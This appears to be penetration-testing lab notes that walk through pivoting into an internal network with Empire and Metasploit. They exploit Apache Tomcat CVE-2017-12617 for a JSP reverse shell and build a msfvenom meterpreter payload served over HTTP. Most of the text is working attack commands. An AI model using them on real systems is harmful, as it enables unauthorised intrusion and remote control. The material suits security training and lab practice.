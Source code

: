 in Empire:
```powershell
usemodule code_execution/invoke_metasploitpayload
set URL <the URL from metasploit module>
set Agent <agent number>
execute
```

> here, we should get a meterpreter session 


in Metasploit:
we are dealing with different networks, so we will need to set an autoroute
```powershell
use post/multi/manage/autoroute
set session 1
run

use auxiliary/server/socks_proxy
set srvhost <kali ip>
run
```

remember the port must be the same as proxychains.conf file
now we can set our browser, in the proxy config, in the socks session, set the kali ip with the right port
we can open the page 10.100.11.100:8443 from that weird port that was open
a apache tomcat 7.0.81 page opens, if we search For vulnerability For that version of apache	

-  we get CVE-2017-12617
	metasploit has this exploit, but first we need to set a proxy


- why do we need to set a proxy?
	because its a internal network, we got set the proxy, For the target of the internal network can receive our payload

```powershell
use post/windows/manage/portproxy
set CONNECT_ADDRESS <kali ip>
set CONNECT_PORT 4444
set LOCAL_ADDRESS 10.100.11.101 = its the first host we compromise.
set LOCAL_PORT 4444
set session 1
run

use exploit/multi/http/tomcat_jsp_upload_bypass
set options
set payload java/jsp_shell_reverse_tcp
set rport 8443 = that is the port that we access the apache page
run
// we should get a shell back
```

### upgrade the shell to a meterpreter shell
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.100.11.101 LPORT=4444 -f exe > /tmp/payload.exe

python3 -m http.server 8000
```
